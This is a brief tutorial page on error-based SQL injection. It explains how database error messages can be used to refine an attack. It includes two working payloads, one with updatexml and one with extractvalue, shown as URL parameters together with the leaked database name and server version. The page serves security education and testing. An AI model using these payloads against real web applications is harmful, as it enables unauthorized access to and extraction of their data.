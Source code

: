 # Page 2

## Error-Based SQL injection

Error-based SQL injection attack is an **In-band injection** technique where we **utilize the error output** from the database to manipulate the data inside the database.

Error-Based SQL Injection technique forces the database to generate an error, giving the attacker or tester information upon which to refine their injection.

{% hint style="info" %}
Key: “When life gives you a lemon, make a lemonade.”

In Simple words: Use the thrown error, to precisely craft the next payload.
{% endhint %}

```sql
?id=1' and updatexml('anything',concat(':',(select database()),':'),null )-- -

OUTPUT:
XPATH syntax error: ':security:'
```

```sql
?id=1' AND extractvalue(rand(),concat(CHAR(126),version(),CHAR(126)))-- -

OUTPUT:
XPATH syntax error: '~10.1.19-MariaDB~'
```



##
